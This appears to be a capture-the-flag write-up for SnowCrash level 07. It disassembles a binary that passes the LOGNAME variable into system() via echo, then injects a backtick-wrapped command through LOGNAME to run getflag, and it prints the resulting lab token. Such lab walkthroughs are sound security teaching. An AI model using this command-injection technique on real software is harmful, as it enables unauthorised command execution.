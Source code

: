 ## LEVEL 07

---

In this level we have a compiled file called `level07`.

```shell
$ gdb -q level07
Reading symbols from /home/user/level07/level07...done.
(gdb) disas main
Dump of assembler code for function main:
   0x08048514 <+0>:	    push   %ebp
   0x08048515 <+1>:	    mov    %esp,%ebp
   0x08048517 <+3>:	    and    $0xfffffff0,%esp
   0x0804851a <+6>:	    sub    $0x20,%esp /* Allocate 32 bytes */
   [...]
   0x0804856f <+91>:	movl   $0x8048680,(%esp)
   0x08048576 <+98>:	call   0x8048400 <getenv@plt>
   0x0804857b <+103>:	mov    %eax,0x8(%esp)
   0x0804857f <+107>:	movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:	lea    0x14(%esp),%eax
   0x0804858b <+119>:	mov    %eax,(%esp)
   0x0804858e <+122>:	call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:	mov    0x14(%esp),%eax
   0x08048597 <+131>:	mov    %eax,(%esp)
   0x0804859a <+134>:	call   0x8048410 <system@plt>
   0x0804859f <+139>:	leave
   0x080485a0 <+140>:	ret
End of assembler dump.
(gdb) x/s 0x8048680
0x8048680:	 "LOGNAME"
(gdb) x/s 0x8048688
0x8048688:	 "/bin/echo %s "
(gdb) x/32s $eax
0x804b070:	 "/bin/echo level07 "
```

This program get the environment variable called `LOGNAME`, then use `echo` with this variable as parameter.

So I will use this echo function to execute `getflag`.

```shell
$ export LOGNAME='`getflag`'
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```